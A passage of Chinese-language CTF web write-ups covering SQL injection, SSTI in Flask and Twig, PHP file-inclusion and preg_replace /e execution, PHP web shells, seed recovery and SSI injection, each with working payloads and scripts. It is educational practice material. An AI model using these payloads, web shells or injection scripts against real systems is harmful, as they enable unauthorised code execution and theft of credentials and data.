$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```
看起来像是一个注入，但是过滤了单引号，导致我们没有办法闭合，我们查看官方文档：
> PHP 5.4 之前 PHP 指令 magic_quotes_gpc 默认是 on， 实际上所有的 GET、POST 和 COOKIE 数据都用被 addslashes() 了。 不要对已经被 magic_quotes_gpc 转义过的字符串使用 addslashes()，因为这样会导致双层转义。 遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。

绕过：
```
id=\0'&path=%20or%20length((select group_concat(password) from users))=20%23
```
布尔盲注：
```
import requests

url = "http://dbfe7b37-c752-453b-9124-7813507af736.node3.buuoj.cn/image.php?id=\\0'&path="

payload = "or id=if(ascii(substr((select password from users),{0},1))>{1},1,0)%23"

result = ''

for i in range(1,100):
    l = 1
    r = 130
    mid = (l + r)>>1

    while(l<r):
        payloads = payload.format(i,mid)
        print(url+payloads)
        html = requests.get(url+payloads)

        if "JFIF" in html.text:
            l = mid +1
        else:
            r = mid
        mid = (l + r)>>1

    result+=chr(mid)
    print(result)
```
得到admin的密码，然后登录，发现文件上传页面，传一个马上去看看：
```
<?php eval($_POST[cmd]);?>
```
`.phtml`结果表示并不能看见上传到哪了，不过它是将文件名写入一个php文件里面作为日志，所以：
```
filename=<?=@eval($_POST['cmd']);?>
```
蚁剑连上去，得到flag

----
## [GYCTF2020]FlaskApp
以前做了，现在来复现一下，是个模板注入，flask，jinjia2引擎，首先要找到可利用的基类：
```
{{''.__class__.__base__}}
```
找到obj类：
```
class object
```
然后找到可利用的类：
```
{{''.__class__.__base__.__subclasses__()[75].__init__.__globals__}}
```
这个75是用脚本跑出来的，跑的方法是检测那个数字是否有globals，但是buu这里加了jwt，好像是不能跑了，所以就用这个吧，查询能用的内建函数：
```
{{''.__class__.__base__.__subclasses__()[75].__init__.__globals__.__builtins__}}
```
发现里面有`eval`和`open`，我们直接使用eval，这里因为有过滤所以我们要绕过一下：
```
{{''.__class__.__base__.__subclasses__()[75].__init__.__globals__.__builtins__['ev'+'al']("__imp"+"ort__('o"+"s').po"+"pen('ls /').read()")}}
```
发现文件：
```
app bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys this_is_the_flag.txt tmp usr var 
```
读取：
```
{{''.__class__.__base__.__subclasses__()[75].__init__.__globals__.__builtins__['open']('/this_is_the_fl'+'ag.txt').read()}}
```
得到flag，还有的做法[参考](http://15h3na0.xyz/2020/02/24/ICQ%20GYCTF2020/#%E6%96%B9%E6%B3%951-SSTI%E6%BC%8F%E6%B4%9E)，用到了ssti[任意代码执行的poc](https://github.com/vulhub/vulhub/tree/master/flask/ssti)：
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

----
## [BJDCTF2020]The mystery of ip
打开后进入Flag，然后发现了我的ip，改了下xff，果然可以，不过看起来好像有点奇怪，试了下ssti，模板注入：
```
{{system("ls")}}
```
成功执行：
```
css
flag.php
header.php
hint.php
img
index.php
jquery
libs
templates_c
templates_c
```
读取flag：
```
{{system("cat /flag")}}
```
get flag

----
## [BJDCTF2020]ZJCTF，不过如此
打开能看见源码：
```
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```
可以看到首先是要来一个text，并且文件内容要是特定字符串，`file_get_contents`可以读取php伪协议的内容，所以我们：
```
get:    text=php://input
post:   I have a dream
```
绕过第一层，第二个是一个正则匹配，防止我们读取flag，我们先读取next.php：
```
get:    file=php://filter/read=convert.base64-encode/resource=next.php
```
得到源码：
```
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
在本地用php7调试的时候发现`preg_replace`的/e被弃用了，建议我换另一个函数，一般来说，php函数被替换都是安全问题，所以我们搜索`preg_replace /e`果然找到了代码执行漏洞，详见[资料](https://mochazz.github.io/2018/08/18/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1Day8%20-%20preg_replace%E5%87%BD%E6%95%B0%E4%B9%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#Day8-Candle)，那个`\\1`就是用来读取正则匹配到的第一个结果：
```
get:    \Q*=${getFlag()}&cmd=system('cat /flag');
```
并且发现了[PHP-Audit-Labs](https://github.com/hongriSec/PHP-Audit-Labs)，php相关漏洞总结。

----
## [BJDCTF2020]Cookie is so stable
似乎又是一道模板注入，现在得祭出一张神图：
```flow
st=>start: 开始测试

cond1=>condition: ${7*7}
cond2=>condition: a{*comment*}b
cond3=>condition: ${"z".join("ab")}
cond4=>condition: {{7*7}}
cond5=>condition: {{7*'7'}

e1=>end: Smarty
e2=>end: Mako
e3=>end: Unknown
e4=>end: Jinjia2/Twig
e5=>end: Unknown
e6=>end: Not Vulnerable

st->cond1
cond1(yes,right)->cond2
cond2(yes)->e1
cond2(no)->cond3
cond3(yes)->e2
cond3(no)->e3
cond1(no)->cond4
cond4(yes)->cond5
cond4(no)->e6
cond5(yes)->e4
cond5(no)->e5
```
经过测试，这是一个[Twig的模板注入](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#2-Twig)，在题目中得到提示是在cookie中注入：
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```
得到flag

----
## [GWCTF 2019]枯燥的抽奖
打开后发现一个`check.php`：
```
<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php"); 
```
看到了随机数种子似乎是可控的，找到[文章](https://www.freebuf.com/vuls/192012.html)，首先我们还原随机数：
```
str1 = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
str2 = 'n8pevnXWA3'
str3 = str1[::-1]
length = len(str2)
res = ''
for i in range(len(str2)):
    for j in range(len(str1)):
        if str2[i] == str1[j]:
            res += str(j) + ' ' + str(j) + ' ' + '0' + ' ' + str(len(str1) - 1) + ' '
            break

print(res)
```
使用`php_mt_seed`跑，几经波折得到种子：
```
747509726
```
使用源码生成，得到key，提交后拿到flag。

----
## [极客大挑战 2019]RCE ME
打开就是源码：
```
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

?>
```
看起来又是过滤了所有的字母和数字，又要用到无数字字母shell，使用异或或者取反构造字符串：
```
<?php
$a = "phpinfo";
echo urlencode(~$a);
```
整个phpinfo看看：
```
code=(~%8F%97%8F%96%91%99%90)();
```
发现php版本为7，并且`disable_functions`ban了一大堆函数，我们整一个另外的`_GET`上去绕过长度限制，要注意的是php要执行变量里面的语句的话，需要将变量用大括号括起来：
```
code=${~%A0%B8%BA%AB}[_]();&_=phpinfo
```
整个shell，assert在php7中可以当作函数使用来执行php语句：
```
code=${~%A0%B8%BA%AB}[_](${~%A0%B8%BA%AB}[__]);&_=assert&__=eval($_POST['cmd'])
```
蚁剑连上，发现了`flag`和`readflag`，很显然是需要我们用`readflag`来整到这个文件的，但是能执行系统命令的函数都被ban了，所以没有办法执行，这里官方给的wp是用so文件，我使用的是烨师傅的方法，用蚁剑的插件，里面有一个绕过`disable_functions`，选择php7，直接运行`readflag`，成功读取到flag

----
## [HITCON 2015]Babyfirst
打开就能看见源码：
```
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    echo $dir."\n";
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
sandbox/174.0.222.75
Warning: count(): Parameter must be an array or an object that implements Countable in /var/www/html/index.php on line 11

Warning: implode(): Invalid arguments passed in /var/www/html/index.php on line 15
```
这里的正则要去必须全为字母和数字，空格也不行

----
## [BJDCTF2020]EasySearch
尝试注入，无果，扫目录发现swp文件：
```
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
可以看到这里要求是md5前六位要想等，我们直接爆破：
```
import hashlib

chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-'

for a in chars:
    for b in chars:
        for c in chars:
            for d in chars:
                for e in chars:
                    st = a + b + c + d + e
                    if hashlib.md5(st.encode('ascii')).hexdigest()[:6] == '6d0bc1':
                        print(st)
```
跑出来几个：
```
AQ^X2
AzHnn
A@@Tu
```
登录：
```
admin AzHnn
```
在header中找到：
```
public/5f0d51501509e4840b037f9966c54071aa559884.shtml
```
访问：
```
Hello,admin

data: Friday, 20-Mar-2020 12:59:57 UTC

Client IP: 174.0.222.75
```
shtml可以造成[ssi（服务器端包含）](https://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/)，看起来像是在username处注入，测试：
```
username=<!--#exec cmd="ls ../" -->&password=AzHnn
```
得到目录：
```
flag_990c66bf85a09c664f0b6741840499b2 index.php index.php.swp public 
```
读取：
```
username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2" -->&password=AzHnn
```
得到flag

----
## [GXYCTF2019]BabyUpload
